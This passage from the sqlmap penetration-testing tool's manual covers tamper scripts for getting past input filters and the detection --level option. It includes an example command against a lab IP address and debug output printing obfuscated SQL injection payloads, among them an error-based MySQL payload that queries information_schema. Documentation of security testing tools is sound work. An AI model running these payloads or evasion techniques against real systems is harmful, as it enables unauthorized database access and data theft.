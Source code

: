 `retVal = payload`

`# your code to tamper the original payload`

`# return the tampered payload`\
`return retVal`

\
You can check valid and usable tamper scripts in the `tamper/` directory.\
Example against a MySQL target assuming that `>` character, spaces and capital `SELECT` string are banned:\
`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\`\
`tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3[hh:mm:03] [DEBUG] cleaning up configuration parameters`\
`[hh:mm:03] [INFO] loading tamper script 'between'`\
`[hh:mm:03] [INFO] loading tamper script 'randomcase'`\
`[hh:mm:03] [INFO] loading tamper script 'space2comment'`\
`[...]`\
`[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'`\
`[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092`\
`[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057`\
`[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041`\
`[...]`\
`[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause`\
`'`\
`[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC`\
`AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/`\
`**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info`\
`rmation_schema.tables/**/group/**/bY/**/x)a)`\
`[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or`\
`HAVING clause' injectable`\
`[...]`

### Detection

These options can be used to customize the detection phase.

#### Level

Option: `--level`\
This option requires an argument which specifies the level of tests to perform. There are **five** levels. The default value is **1** where limited number of tests (requests) are performed. Vice versa, level **5** will test verbosely for a much larger number of payloads and boundaries (as in pair of SQL payload prefix and suffix). The payloads used by sqlmap are specified in the textual file `xml/payloads.xml`. Following the instructions on top of the file, if sqlmap misses an injection, you should be able to add your own payload(s) to test for too!\
Not only this option affects which payload sqlmap tries, but also which injection points are taken in exam: GET and POST parameters are **always** tested, HTTP Cookie header values are tested from level **2** and HTTP User-Agent/Referer headers' value is tested from level **3**.\
All in all, the harder it is to detect a SQL injection, the higher the `--level` must be set.\
It is strongly recommended to higher this value before reporting to the mailing list that sqlmap is not able to detect a certain injection point.

#### Risk
